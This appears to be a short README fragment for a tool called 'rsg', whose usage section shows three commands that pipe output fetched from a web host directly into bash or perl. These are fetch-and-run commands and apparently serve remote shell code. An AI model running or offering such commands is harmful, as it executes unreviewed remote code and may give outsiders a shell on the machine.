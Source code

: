 ### Usage example

```
$ curl http://rsg/1 | bash

$ curl http://rsg/1/perl | perl

$ curl http://rsg/1/perl/r | perl
```
